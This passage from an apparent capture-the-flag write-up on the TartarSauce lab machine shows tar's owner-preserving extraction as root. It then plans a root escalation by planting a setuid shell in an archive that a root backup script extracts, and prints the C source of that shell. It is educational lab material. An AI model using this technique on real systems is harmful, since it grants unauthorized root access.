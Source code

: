 
But when I extract as root, and thus expect the owner/group to be preserved,
the files are now owned by the users who have the same ids as the owners on
the original host:

    
    
    ~$ sudo tar xvf test.tar
    test
    test-nobody
    test-ssh
    ~$ ls -l
    -rw-r--r-- 1 root   root      6 Oct 21 11:05 test
    -rw-r--r-- 1 nobody   999     6 Oct 21 11:06 test-nobody
    -rw-r--r-- 1 df     df        6 Oct 21 11:05 test-ssh
    -rw-r--r-- 1 df     df    10240 Oct 21 11:22 test.tar
    

It looks like the nobody user shares the same user id on both hosts. However,
the nobody group is 999 on the creating host, but there is no group 999 on the
extracting host. And the ssh user on the creating host has the same id as the
df user on the new host.

Still, if I extract the file as df, all the extracted files have the
owner/group of df, as df doesn’t have permissions to write as other users.

## Root Shell

### Strategy

Putting all of this together, it’s actually quite easy to get a root shell on
TartarSauce. I’ll take advantage of two bits:

  1. `backuperer` extracts the archive to `$check`, which is `/var/tmp/check`. Since this is run by root, permissions from within the archive will be preserved.
  2. As long as the `if [[ $(integrity_chk) ]]` returns true, the extracted directory is not deleted until the next time the script is run.

So, to get a shell, I’ll create a suid binary on my local machine in a
`var/www/html` folder, put it into a tar archive, let root extract it on
TartarSauce, and then make use of the shell.

### Creating suid Shell

I’ll start with a really simple `suid.c`:

    
    
    int main(void){
      setresuid(0, 0, 0);
      system("/bin/bash");
    }
    

Since TartarSauce is x86, I’ll compile with the -m32 flag and ignore those
warnings:

    
